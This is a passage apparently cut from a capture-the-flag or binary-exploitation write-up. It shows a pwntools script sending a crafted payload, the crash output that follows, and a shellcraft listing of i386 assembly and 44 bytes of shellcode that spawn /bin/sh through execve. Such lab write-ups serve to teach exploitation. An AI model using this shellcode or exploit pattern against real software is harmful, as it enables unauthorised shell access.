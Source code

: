 ```python
	p.sendline("r")
	p.recvuntil("directions:")
	p.sendline(scraftPld())
	p.interactive()
```
###### Results:
```
[*] Switching to interactive mode

Hi, jhh///sh/bin\x89\xe3h\x814$ri1\xc9Qj\x04Y\xe1Q\x89\xe11\xd2j\x0bX\xb0\xdd\xff\xff\xff\x7f

Program received signal SIGSEGV, Segmentation fault.
0xffffddb080cd580b in ?? ()
```

###### Ignore this
```python
>>> print(shellcraft.sh())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

>>> sCode = asm(shellcraft.sh())
>>> print(sCode)
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
>>> print("Shellcode Length = ", len(sCode))
Shellcode Length =  44
```